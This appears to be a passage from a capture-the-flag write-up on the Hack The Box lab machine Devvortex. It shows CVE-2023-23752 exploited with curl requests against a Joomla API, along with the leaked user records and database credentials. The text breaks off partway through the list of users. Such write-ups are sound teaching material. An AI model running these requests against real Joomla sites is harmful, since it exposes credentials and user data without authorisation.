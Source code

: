 ### Exploiting CVE-2023-23752

- **User Information**:
  
      $ curl http://dev.devvortex.htb/api/v1/users?public=true
      
      {"links":{"self":"http:\/\/dev.devvortex.htb\/api\/v1\/users?public=true"},"data":[{"type":"users","id":"649","attributes":{"id":649,"name":"lewis","username":"lewis","email":"lewis@devvortex.htb","block":0,"sendEmail":1,"registerDate":"2023-09-25 16:44:24","lastvisitDate":"2024-04-26 10:37:12","lastResetTime":null,"resetCount":0,"group_count":1,"group_names":"Super Users"}},{"type":"users","id":"650","attributes":{"id":650,"name":"logan paul","username":"logan","email":"logan@devvortex.htb","block":0,"sendEmail":0,"registerDate":"2023-09-26 19:15:42","lastvisitDate":null,"lastResetTime":null,"resetCount":0,"group_count":1,"group_names":"Registered"}}],"meta":{"total-pages":1}}      

- **Application Config**:

      $ curl http://dev.devvortex.htb/api/index.php/v1/config/application?public=true 
      
      {"links":{"self":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true","next":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20","last":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"},"data":[{"type":"application","id":"224","attributes":{"offline":false,"id":224}},{"type":"application","id":"224","attributes":{"offline_message":"This site is down for maintenance.<br>Please check back again soon.","id":224}},{"type":"application","id":"224","attributes":{"display_offline_message":1,"id":224}},{"type":"application","id":"224","attributes":{"offline_image":"","id":224}},{"type":"application","id":"224","attributes":{"sitename":"Development","id":224}},{"type":"application","id":"224","attributes":{"editor":"tinymce","id":224}},{"type":"application","id":"224","attributes":{"captcha":"0","id":224}},{"type":"application","id":"224","attributes":{"list_limit":20,"id":224}},{"type":"application","id":"224","attributes":{"access":1,"id":224}},{"type":"application","id":"224","attributes":{"debug":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang_const":true,"id":224}},{"type":"application","id":"224","attributes":{"dbtype":"mysqli","id":224}},{"type":"application","id":"224","attributes":{"host":"localhost","id":224}},{"type":"application","id":"224","attributes":{"user":"lewis","id":224}},{"type":"application","id":"224","attributes":{"password":"P4ntherg0t1n5r3c0n##","id":224}},{"type":"application","id":"224","attributes":{"db":"joomla","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"sd4fg_","id":224}},{"type":"application","id":"224","attributes":{"dbencryption":0,"id":224}},{"type":"application","id":"224","attributes":{"dbsslverifyservercert":false,"id":224}}],"meta":{"total-pages":4}}
    
    We can see from the `meta` that it's only page 1 out of 4. We should gather all the data from this api using the `next` link and save it to a file.

### Users and Credentials
- **Users**:
  - lewis:
  
        {
            "id": 649,
            "name": "lewis",
            "username": "lewis",
            "email": "lewis@devvortex.htb",
            "block": 0,
            "sendEmail": 1,
            "registerDate": "2023-09-25 16:44:24",
            "lastvisitDate": "2024-04-26 10:37:12",
            "lastResetTime": null,
            "resetCount": 0,
            "group_count": 1,
            "group_names": "Super Users"
        }
  - logan:
